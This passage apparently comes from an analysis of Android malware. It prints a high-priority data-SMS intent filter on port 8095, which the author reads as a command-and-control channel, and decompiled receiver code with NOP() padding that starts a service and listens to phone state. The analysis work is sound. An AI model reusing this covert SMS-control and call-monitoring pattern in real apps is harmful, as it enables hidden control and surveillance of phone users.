 ```xml
<intent-filter android:priority="100">
    <action android:name="android.intent.action.DATA_SMS_RECEIVED"/>
    <data android:scheme="sms" android:host="*" android:port="8095"/>
</intent-filter>
```

Using a specific SMS port allows the application to filter out other regular SMS messages and focus on messages that are intended for (most probably) its command and  control purposes.



The `android:priority="100"` attribute specifies the priority of the `BroadcastReceiver` for this intent filter. The application wants to make sure that the `org.xmlpush.v3.ReceiverMain` receiver will be the first to be notified when an `android.intent.action.DATA_SMS_RECEIVED` event is triggered.



## org.xmlpush.p011v3.ReceiverMain



```java
public void onReceive(Context context, Intent intent) {
        boolean z;
        boolean z2 = false;
        NOP();
        Intent intent2 = new Intent(context, ReceiverService.class);
        NOP();
        intent2.putExtras(intent);
        NOP();
        String action = intent.getAction();
        NOP();
        intent2.setAction(action);
        NOP();
        context.startService(intent2);
        String PHONE_STATE = PHONE_STATE();
        NOP();
        String action2 = intent.getAction();
        NOP();
        if (!PHONE_STATE.equalsIgnoreCase(action2)) {
            String NEW_OUTGOING_CALL = NEW_OUTGOING_CALL();
            NOP();
            String action3 = intent.getAction();
            NOP();
            if (!NEW_OUTGOING_CALL.equalsIgnoreCase(action3)) {
                z = false;
                this.f1019a = z;
                if (!C0558k.f1501cg || C0558k.f1437bU) {
                    z2 = true;
                }
                this.f1020b = z2;
                if (this.f1019a || !this.f1020b) {
                }
                NOP();
                C0485a m482a = C0485a.m482a(context);
                TelephonyManager telephonyManager = C0558k.telephonyManager;
                NOP();
                telephonyManager.listen(m482a, 32);
                return;
            }
        }
        z = true;
        this.f1019a = z;
        if (!C0558k.f1501cg) {
        }
        z2 = true;
        this.f1020b = z2;
```